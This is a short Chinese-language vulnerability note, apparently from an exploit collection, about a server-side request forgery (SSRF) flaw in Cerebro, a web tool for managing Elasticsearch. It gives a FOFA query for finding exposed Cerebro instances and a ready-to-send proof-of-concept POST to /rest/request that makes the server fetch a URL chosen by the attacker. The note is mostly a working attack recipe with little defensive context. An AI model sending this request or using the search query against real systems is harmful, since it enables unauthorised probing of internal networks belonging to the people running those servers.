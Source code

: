 # Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

```
Cerebro
```

## FOFA

```
app="Cerebro"
```

## 漏洞复现

主页面

![image-20220524143249335](./images/202205241432380.png)

发送请求包

```
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![](./images/202205241433022.png)
